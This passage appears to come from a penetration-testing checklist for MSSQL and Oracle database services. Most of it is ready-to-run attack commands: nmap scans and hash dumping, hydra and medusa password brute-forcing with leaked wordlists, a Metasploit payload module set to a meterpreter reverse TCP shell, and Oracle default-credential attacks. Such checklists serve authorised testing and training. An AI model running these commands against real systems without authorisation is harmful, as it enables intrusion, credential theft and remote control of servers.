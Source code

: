     nmap -sU --script=ms-sql-info $IP
    ```
*   [ ] Password bruteforcing

    ```bash
    # using msf
    msf > use auxiliary/scanner/mssql/mssql_login

    hydra -l <USERNAME> -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt $IP -s <PORT> -t 5 mssql
    hydra -s <PORT> -C ./wordlists/mssql-default-userpass.txt -u -f $IP mssql
    medusa -h $IP -M mssql -u sa -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -e ns -F -t 5
    ```
*   [ ] Gain shell using gathered credentials

    ```bash
    # using msf
    msf > use exploit/windows/mssql/mssql_payload
    msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
    ```
*   [ ] Log in to a MSSQL Server

    ```bash
    sqsh -S $IP -U sa -P password -D db_name
    ```
* [ ] Any known vulnerability?
  * [ ] Check https://www.exploit-db.com/
  * [ ] Check https://www.cvedetails.com/
  * [ ] Check https://nvd.nist.gov/
  *   [ ] Check on google

      ```bash
      site:github.com *Service version.release*
      ```
  *   [ ] Check with nmap

      ```bash
      nmap -vv -sV -Pn -p \<PORT\> --script=ms-sql-info,ms-sql-config,ms-sql-dump-hashes --script-args=mssql.instance-port=%s,smsql.username-sa,mssql.password-sa $IP
      ```

#### Oracle (TCP 1521)

*   [ ] Default credentials

    ```bash
    hydra -s <PORT> -C ./wordlists/oracle-default-userpass.txt -u -f $IP
    ```
* [ ] tnscmd10g version -h $IP
* [ ] tnscmd10g status -h $IP
*   [ ] **oracle-version** - MSF module which scans Oracle DB to find the version
